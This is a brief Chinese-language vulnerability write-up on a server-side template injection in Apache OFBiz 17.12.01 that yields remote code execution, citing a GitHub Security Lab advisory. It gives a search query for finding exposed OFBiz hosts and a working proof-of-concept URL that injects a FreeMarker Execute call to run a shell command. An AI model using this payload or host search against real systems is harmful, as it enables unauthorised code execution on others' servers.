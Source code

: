 # Apache OfBiz 远程代码执行 RCE

# Apache OfBiz 远程代码执行 RCE

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-066-apache_ofbiz

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

poc：

```
https://localhost/ordermgr/control/FindRequest?foo=bar"ajaxEnabled=false/>${"freemarker.template.utility.Execute"?new()("id")}<FOO
```


